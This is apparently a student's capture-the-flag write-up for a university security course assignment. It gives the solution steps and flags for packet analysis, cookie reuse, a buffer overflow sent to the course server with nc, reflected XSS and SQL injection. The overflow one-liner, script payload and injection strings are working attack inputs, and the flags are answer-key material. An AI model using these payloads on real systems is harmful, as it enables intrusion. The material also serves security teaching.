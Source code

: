 ```yaml
---
layout: post
published: true
title: CS2107 - Assignment 2
---
```

# Introduction to wireshark
1. Download the pcap
2. right click the packet  > Follow > TCP stream
3. Flag is inside

code: `flag{b@bYsh@rk_doo0o0o_W1r3sh@rk_doOo0o_d0o0o0o_d0o_W1rEsh@rk}`

# Cookie Monster
1. Filter the wireshark by cookie `http.cookie`
2. Search for the cookie within the packet
	`cs2107 = 19d07781081e792d7a67d85c3cd1b061`
3. Enter the website in the packet: http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb (It mus say nice try)
4. Insert the cookie you have found in step 2

Flag: `http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb`

# Stack Overflow
1. Install x32 in ubuntu
```bash
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386
```
2. Little endian want ur input to be in this format: `0721CDAB`
3. `echo -n -e '\x07\x21\xcd\xab'`
4. Buffer overflow the programmer with 36 characters at the front 
5. Use pipelining to push the output into ur program 
	`echo -n -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | ./simple`
- [Idea](https://stackoverflow.com/questions/26949856/how-do-you-take-user-input-as-hex-characters-through-gets-function-linux)
6. Just do the same thing on the actual server
`echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | nc ctf.nus-cs2107.com 10003`

Flag: `flag{6e97e993d3caa7952c170accf2398f78}`

# XSS me
1. Enter the following into the textbox
`"><script>alert('gimme the flag pls')</script>`

Flag: `flag{R3fleCt3D_xSs_is_V3R7_34Sy_R1GH7?}`

# SQL Statment

## Level 1
- Insert: `1'!='1` in textbox

> `1` and `1` are not equal (Character)

Flag: `flag{WhO_dO3sN't_LOv3_Fr33_M4rk5!}`

## Level 2
- Insert: `1!=1; --or ' or 1=1-- or 1=1--` in textbox

Working:
- The `--` becomes a comment
- First query: Ignores the stuff behind the `--`
- Second query: Ignore the front before the `--` since its in quotes 
Flag: `flag{pR3qU3l_1s_sO_mucH_eZ13r_wh3n_c0mP4r3D_tO_tH1$}`

## Level 3
- Insert: `1!=1; --or ' or 1=1-- or 1=1--'" != "a`

Working:
- From Part 2, insert: `" ! = "a`
- This covers the front " for query 3
- Essentially for query 3, it is just querying `"a"!="a"`

flag{w0w_4R3nt_y0u_4_S3Qu3L_M4$T3R!!!}
